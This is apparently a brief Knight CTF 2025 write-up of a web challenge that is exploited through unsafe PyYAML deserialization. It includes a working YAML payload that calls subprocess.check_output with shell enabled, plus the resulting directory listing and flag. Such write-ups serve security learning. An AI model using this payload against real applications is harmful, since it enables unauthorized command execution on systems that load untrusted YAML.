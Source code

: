 ```yaml
---
date: 2025-01-22
description: PyYAML Code Execution
platform: Knight CTF 2025
categories: Web
tags:
  - yaml
  - PyYAML
  - RCE
duration:
---
```


Accepts yaml input as base64 and renders it on the website.  `yaml: {input} > base64`
Application is using yaml with python stack. Look for vulnerabilities on it library

# payload
```yaml
yaml: !!python/object/apply:subprocess.check_output
       args: [ ls ]
       kwds: { shell: true }
# convert to > base64 
```
```
b"Dockerfile\nKCTF{d38787fb0741bd0efdad8ed01f037740}\nWhy didn't they set this as read only\na\na.txt\napp\ndoesnotexist.txt\nhey.txt\nls\noutput.txt\nrequirements.txt\nstart.sh\nstatic\ntemp.txt\ntest\ntest.txt\nwhat if someone overwrite the flag??\nzab.txt\n"
```
References:
- https://hackmd.io/@harrier/uiuctf20
- https://trevorsaudi.medium.com/yaml-2-json-hackpack-ctf-7de28ef0ecff
- https://access.redhat.com/security/cve/cve-2020-14343
